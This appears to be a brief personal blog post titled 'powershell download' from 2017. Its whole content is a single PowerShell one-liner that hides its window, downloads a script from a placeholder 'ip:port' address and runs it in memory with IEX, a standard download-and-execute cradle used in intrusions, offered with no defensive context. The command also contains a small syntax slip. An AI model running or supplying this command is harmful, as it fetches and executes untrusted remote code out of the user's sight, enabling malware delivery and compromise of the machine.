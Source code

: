 ```yaml
---
layout: post
title: "powershell download"
date: 2017-06-23
---
```

<p>
something like:
<code>powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://ip:port/file'))"</code>
</p>
